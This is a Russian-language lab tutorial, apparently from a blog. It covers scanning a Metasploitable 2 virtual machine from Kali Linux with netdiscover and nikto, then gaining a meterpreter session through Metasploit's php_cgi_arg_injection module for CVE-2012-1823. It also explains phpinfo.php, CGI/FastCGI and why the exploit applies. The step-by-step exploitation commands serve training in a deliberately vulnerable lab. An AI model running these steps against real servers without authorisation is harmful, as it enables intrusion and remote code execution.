




Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Сначала необходимо обновить metasploit, так как необходимый payload не стабильно работает на текущей версии. Что бы обновить metasploit в терминале Kali Linux необходимо дать команду:
sudo apt update sudo apt install metasploit-framework
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
Используем программу nikno для нашей удаленной машины.
Если Nikto не установлен в Kali Linux дать команду:
sudo apt update sudo apt install nikto
Нам уже известно, что на удаленной машине есть сайт, а значит и есть веб сервер.
Что бы проверить наличие сайта на удаленной машине, в браузере Kali введите адрес: 10.0.2.3 и загрузиться веб страница.
Даем команду сканировать удаленный веб сервер при помощи nikto:
nikto -h http://10.0.2.3
Как видим в выводе команды nikto указано что есть:
Server: Apache/2.2.8 (Ubuntu) DAV/2
PHP/5.2.4-2ubuntu5.10
/phpinfo.php: PHP is installed

Используя Nikto, мы обнаружили, что страница phpinfo.php доступна.
/phpinfo.php: PHP is installed значит в адресной строке браузера Kali можно набрать адрес:
http://10.0.2.3/phpinfo.php

Далее в Kali запускаем метасплоит, для этого даем команду в терминале:
msfconsole
Далее в приглашении метасплоит пишем:
msf > search php_cgi
Далее в приглашении метасплоит пишем:
msf > use 0
То есть выбираем модуль:
0 exploit/multi/http/php_cgi_arg_injection
Далее в приглашении модуля метасплоит устанавливаем опцию "удаленный хост" RHOSTS:
msf exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 10.0.2.3
И далее даем команду exploit:
msf exploit(multi/http/php_cgi_arg_injection) > exploit
Вместо команды exploit можно дать команду check для проверки- уязвима система или нет, а после команды check уже выполнить команду exploit.
После выполнения команды exploit мы получаем сессию meterpreter и теперь можем управлять удаленной машиной:
meterpreter >

Название команды не связано с русским словом «никто». Хотя для русскоязычных пользователей название выглядит как слово «никто», это совпадение. Инструмент создавался в англоязычной среде, и официальной связи с русским словом нет.
Nikto — это бесплатный сканер веб-серверов с открытым исходным кодом, который входит в состав многих дистрибутивов Linux для тестирования безопасности, включая Kali Linux.
Для чего нужен Nikto
Он проверяет веб-сервер на наличие:
Nikto не является инструментом для эксплуатации уязвимостей — он только обнаруживает потенциальные проблемы.
Проверить, установлен ли Nikto
nikto -Version
или
nikto -h
Если Nikto не установлен
В Kali Linux:
sudo apt update sudo apt install nikto
Пример использования
Просканировать локальный веб-сервер:
nikto -h http://127.0.0.1
или
nikto -h http://localhost
Просканировать сервер по IP-адресу:
nikto -h http://192.168.1.100
Если сайт использует HTTPS:
nikto -h https://example.com
Сохранение отчета
В HTML:
nikto -h http://127.0.0.1 -o report.html -Format htm
В текстовый файл:
nikto -h http://127.0.0.1 -o report.txt
Основные параметры
| Параметр | Назначение | | --------- | -------------------------------------------------- | | `-h` | адрес сайта или IP | | `-p` | указать порт (например `8080`) | | `-ssl` | использовать SSL/HTTPS | | `-o` | сохранить отчет | | `-Format` | формат отчета (`txt`, `csv`, `xml`, `json`, `htm`) | | `-Tuning` | выбрать определенные типы проверок |
Например, если сайт работает на порту 8080:
nikto -h http://192.168.1.100 -p 8080
Ограничения
Что такое phpinfo.php
Обычно это файл с таким содержимым:
<?php phpinfo(); ?>
При открытии этой страницы PHP выводит подробную информацию о сервере:
Почему это считается находкой
Страница phpinfo.php сама по себе не является уязвимостью, но она может раскрывать внутреннюю информацию о сервере, которая помогает администратору при отладке, а потенциальному злоумышленнику — лучше понять конфигурацию системы. Поэтому на рабочих серверах такие страницы обычно удаляют после настройки или ограничивают к ним доступ.
В данном случае мы взламываем не сайт и не Apache, а интерпретатор PHP, который установлен на сервере.
Что обнаружили
Nikto показал:
PHP/5.2.4
Это говорит только о версии PHP.
Что делают дальше
Ищут известные уязвимости именно этой версии PHP.
Например:
search php_cgi
Metasploit находит модуль
exploit/multi/http/php_cgi_arg_injection
Как называется уязвимость
Это уязвимость
PHP CGI Argument Injection
Она зарегистрирована как CVE-2012-1823.
Полное название часто пишут так:
PHP-CGI Query String Parameter Injection Vulnerability (CVE-2012-1823)
Что означает CGI
PHP может работать несколькими способами.
Например:
Apache Module (mod_php)
FastCGI
PHP-FPM
CGI
Здесь используется режим CGI.
То есть Apache не выполняет PHP сам, а запускает программу
php-cgi
для обработки PHP-файлов.
Что именно взламывают
Взламывают программу
php-cgi
которая неправильно обрабатывает специальные параметры в HTTP-запросе.
То есть цель атаки —
не Apache и не веб-сайт, а обработчик PHP (php-cgi).
Почему это приводит к выполнению команд
Из-за ошибки в обработке параметров злоумышленник может заставить php-cgi изменить свои настройки во время выполнения.
В результате появляется возможность выполнить произвольный PHP-код на сервере.
Если этот код выполняется успешно, атакующий получает удаленное выполнение кода (Remote Code Execution, RCE).
Что делает модуль Metasploit
Когда мы выполняем:
use exploit/multi/http/php_cgi_arg_injection
мы выбираем эксплойт для CVE-2012-1823.
После запуска модуль:
Проверяет, используется ли php-cgi. Отправляет специально сформированный HTTP-запрос, который использует ошибку в обработке параметров. Если сервер уязвим, добивается выполнения своего PHP-кода. Затем загружает полезную нагрузку (payload), например Meterpreter или обычную командную оболочку.
В командной строке метасплоит можно набрать info, и посмотреть для какой версии PHP подходит эта уязвимость:
msf exploit(multi/http/php_cgi_arg_injection) > info

Как видим документация к модулю пишет что подходит для PHP до версий 5.3.12 и 5.4.2 а наша версия PHP 5.2.4-2 и мы делаем вывод модуль подходит.
Что значит в выводе phpinfo.php (скриншот выше):
Server API CGI/FastCGI
Эта строка в phpinfo() означает каким способом PHP взаимодействует с веб-сервером. В нашем случае:
Server API => CGI/FastCGI
означает, что PHP работает не как встроенный модуль Apache, а как отдельная программа (php-cgi), которую запускает веб-сервер для обработки PHP-файлов.
Как происходит обработка запроса
Когда браузер запрашивает:
http://10.0.2.3/index.php
происходит примерно следующее:
Браузер
│
▼
Apache
│
▼
php-cgi (CGI/FastCGI)
│
▼
Выполняет index.php
│
▼
Возвращает HTML Apache
│
▼
Браузер
То есть Apache сам не понимает PHP-код. Он передает файл программе php-cgi, а та выполняет его и возвращает результат.
Что означает CGI
CGI (Common Gateway Interface) — старый способ запуска программ из веб-сервера.
Что означает FastCGI
FastCGI — улучшенная версия CGI.
Почему это важно для Metasploitable
У нас в phpinfo() написано:
Server API => CGI/FastCGI
Это означает, что PHP работает через php-cgi.
Именно поэтому эксплойт:
exploit/multi/http/php_cgi_arg_injection
имеет смысл проверять. Он предназначен для уязвимого обработчика php-cgi. Если бы phpinfo() показывал, например:
Server API => Apache 2.0 Handler
то это означало бы, что PHP встроен в Apache (mod_php), и данный эксплойт для php-cgi уже не подходил бы.
Таким образом, строка Server API => CGI/FastCGI — это один из признаков того, что сервер может использовать именно тот компонент (php-cgi), на который рассчитан эксплойт. Однако для успешной эксплуатации одной этой строки недостаточно: также должны выполняться условия наличия конкретной уязвимой версии и соответствующей конфигурации.